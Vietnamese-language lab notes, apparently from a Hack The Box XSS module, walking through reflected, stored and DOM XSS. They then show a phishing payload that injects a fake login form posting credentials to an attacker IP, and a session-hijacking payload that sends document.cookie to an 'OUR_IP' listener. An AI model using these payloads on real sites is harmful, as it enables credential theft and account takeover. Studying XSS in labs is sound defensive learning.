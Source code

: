 # Reflected XSS

![Screenshot 2025-05-09 012554](https://github.com/user-attachments/assets/a9bf5e3b-80e3-4c0c-9469-858fe8a31364)

![Screenshot 2025-05-09 013154](https://github.com/user-attachments/assets/d315fd9f-8b40-4742-bebb-1673aa5f4f35)

> <script>alert('heloooo')</script>

![Screenshot 2025-05-09 013237](https://github.com/user-attachments/assets/b7cf1b2b-1be1-42be-a64b-8dd5a693aee3)

![image](https://github.com/user-attachments/assets/3cf85edc-c839-4f7d-a543-c4cfa3fcd176)

# Stored XSS cũng giống 

Xuất hiện mỗi lần bạn mở lại trang (mà bạn không cần gửi lại dữ liệu từ input hay URL) 

# DOM XSS

![image](https://github.com/user-attachments/assets/10427616-f046-4fa7-931e-06e663b051d6)

Lần này payload không hoạt động, vì payload được gán thẳng vào innerHTML

![image](https://github.com/user-attachments/assets/82bc8f55-fa28-444a-aaa3-77026b2a06fb)

Có lẻ innerHTML không chạy các thẻ <script> nhưng <img thì được

Ta sẽ gửi một payload như sau 

> <img src="" onerror="alert('aaaa')>

khi ảnh không được tải lên thì sự kiện onerror sẽ thực thi và khi đó

![image](https://github.com/user-attachments/assets/3a98aa17-0013-4485-b1ce-11f96f4475be)

# Phisinggg

![Screenshot 2025-05-09 142539](https://github.com/user-attachments/assets/9523ba51-a53f-4500-adf7-ba65a032a4fc)

Nó cho phép ta nhập vào 1 url hình ảnh vào hiển thị chúng 

![Screenshot 2025-05-09 143254](https://github.com/user-attachments/assets/43d153eb-ee6e-43d7-b98c-2bc5937a1e58)
![Screenshot 2025-05-09 143349](https://github.com/user-attachments/assets/3fd6f1d2-26e7-487e-8cf5-55cab3cdf3ef)

Tiếp theo tôi sẽ tiêm vào một form đăng nhập

![Screenshot 2025-05-09 144552](https://github.com/user-attachments/assets/ce5847b0-92c3-4ec4-9601-3e6b61436cf0)

Tiếp theo tôi chuẩn bị mã XSS thử nghiệm trên biểu mẫu dễ bị tấn công trên, tôi sử dụng hàm trong javascript là document.write() nó có chức năng ghi nội dung trực tiếp ra trang html.

``` document.write('<h3>Please login to continue</h3><form action=http://10.10.15.205><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form><script>document.getElementById('urlform')?.remove()</script><!-- ```

10.10.15.205 sẽ là IP của máy mà chúng ta dùng để lắng nghe thông tin của nạn nhân

Ta được 1 form đăng nhập như này

![image](https://github.com/user-attachments/assets/d656c6e6-0ad3-4f17-a89e-e42d2683fde3)

Bây giờ ta phải làm sao để khi nạn nhân đăng nhập nó sẽ chuyển hướng đến giao diện nhập url ban đầu

![image](https://github.com/user-attachments/assets/d21c5e33-5763-4a31-99db-d3c0c69a97e7)

Ta tạo 1 thư mục tạm vào chèn đoạn mã sao vào file index.php

![image](https://github.com/user-attachments/assets/9f5f9acf-e211-4f7d-9699-4a016774934f)


Bây giờ chúng ta khởi động máy chủ php để lắng nghe, có thể sử dụng thay cho netcat

> sudo php -S 0.0.0.0:80

![image](https://github.com/user-attachments/assets/8b5996ef-2180-47a4-9f3c-7391426002e4)

Ta được thông tin của nạn nhân, Ví dụ nếu trang web hackthebox.com có lỗi tương tự thì ta sẽ có được tài khoảng htb của nạn nhân

# Chiếm đoạt phiên

![Screenshot 2025-05-13 203851](https://github.com/user-attachments/assets/d00f94c8-c17f-45c8-85b5-c9e7628590ff)


- index.js

<pre lang="markdown"> ```javascript new Image().src='http://OUR_IP/index.php?c='+document.cookie ``` </pre>

- chèn mã sau vào lỗ hổng XSS tìm được

<pre lang="markdown"> ```<script src=http://OUR_IP/script.js></script> ``` </pre>

- Gửi nó vào trường đầu vào dễ bị tấn công và ta sẽ nhận được lệnh gọi đến máy chủ với giá trị cookie
- Nhưng có nhiều cookie ta có thể không biết giá trị cookie nào thuộc về tiêu đề cookie nào, đây là tập lệnh php để chia chúng thành dòng mới và ghi chúng vào một tệp

![Screenshot 2025-05-13 203809](https://github.com/user-attachments/assets/5611bda4-23de-4285-be14-6db5ea04aaf4)

Ta nên bật trình lắng nghe trên VM bằng netcat hoac bằng php

Thêm vào 1 dòng nano index.php và đổ đoạn code bên trên vào trước khi khởi động trình lắng nghe

![Screenshot 2025-05-13 204601](https://github.com/user-attachments/assets/ceb8229f-e22a-4f9b-974d-bf9f29e679cb)


Khi nạn nhân đăng nhập vào ta sẽ nhận được cookie của người đó

![Screenshot 2025-05-13 204128](https://github.com/user-attachments/assets/06963a52-089a-49be-9948-21e5fb761bac)

























